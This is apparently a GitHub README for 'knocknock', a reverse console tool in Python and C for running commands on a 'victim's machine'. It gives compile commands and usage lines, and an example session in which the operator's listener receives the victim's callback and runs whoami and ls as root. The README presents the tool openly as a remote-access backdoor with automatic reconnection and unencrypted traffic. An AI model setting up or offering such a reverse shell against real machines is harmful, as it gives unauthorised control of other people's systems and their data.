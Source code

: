 > ![](cmd.ico) A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)

### Demo

![](demo.gif)

### Compile C version `knocknock.c`
```bash
# Windows CL
$> cl knocknock.c /O2 /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O2 knocknock.c -o knocknock
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./knocknock.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./knocknock.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./knocknock.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 knocknock
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./knocknock *.*.*.*:2345
```
End.
